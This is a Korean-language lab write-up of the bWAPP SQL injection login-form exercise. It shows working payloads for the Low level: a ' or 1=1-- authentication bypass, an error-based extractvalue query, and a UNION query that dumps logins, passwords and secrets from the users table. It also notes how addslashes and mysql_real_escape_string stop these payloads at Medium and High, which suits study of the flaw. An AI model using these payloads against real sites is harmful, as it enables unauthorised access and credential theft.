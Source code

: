 ```yaml
---
layout: single
title: (bWAPP)SQL Injection (Login Form/Hero)
categories: Web-vuln
tag: [sql injection, sql, injection, bwapp, bee box, GET, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 검증 로직
> Low Level 에서는 보안 대책이 적용되어 있지 않다.

## Level - Low

![그림 1-1](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image.png)

- 일반적인 Login Form이 존재한다.
![그림 1-2](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image2.png)
- '(싱글 쿼터) 입력을 통한 DBMS Error 유/무 확인시 Error 발생

![그림 1-3](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image3.png)
- 일반적인 ' or 1=1-- 와 같은 인증 우회를 통해 로그인이 가능
- Neo 계정으로 로그인 성공
- 이를 통해 user 목록이 있는 테이블 최 상단에 Neo 유저가 있는 것으로 추정
- Limit 절을 사용하여 한명씩 로그인 하며 전부 확인이 가능함.

```sql
' or 1=1-- 
' or 1=1 limit 1,1-- 
' or 1=1 limit {idx},1--  
```

![그림 1-4](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image4.png)
- 이전 취약점 유/무 확인시 DBMS Error가 발생하였으며, Error Based 공격이 가능함

```sql
' AND extractvalue(0x0a,concat(@@version))
```

![그림 1-5](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image5.png)
![그림 1-6](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image6.png)

- 입력값에 대한 결과를 웹 페이지에 노출되고 있음
- Union-Based공격 또한 가능
- 4개의 컬럼이 사용중이며
- 2, 4 컬럼이 페이지에 노출되고 있음

```sql
1' union select 1,concat(id,0x3a,login),3,concat(password,0x3a,secret) from bWAPP.users limit 1,1--
```

- 출력되는 레코드는 하나의 열씩 출력 되므로, 순차적 레코드 출력으로 데이터를 추출해야함
![그림 1-7](/assets/image/bwapp/injection/sqli-hero-archive/sqli-hero/image7.png)
- 데이터 추출 성공

## Medium & High

```php
function sqli_check_1($data)
{
    return addslashes($data)
}

function sqli_check_2($data)
{
    return mysql_real_escape_string($data);
}
```

1. Medium Level 에서는 addslahes() 함수를 사용하여 ‘(싱글쿼터 )를 입력하게되면 \ 를 앞에 붙여 ‘(싱글쿼터) 사용을 막고 있다. 해당 search 구문인 ‘%%’ 로 이루어져 있어 공격이 성립되지 않는다.
2. High Level 에서는 mysql_real_escape_string() 함수를 사용하여 메타문자를 방지하고 있다.
3. 해당 문제에서 Medium 과 High Level은 공격이 성립되지 않는다.

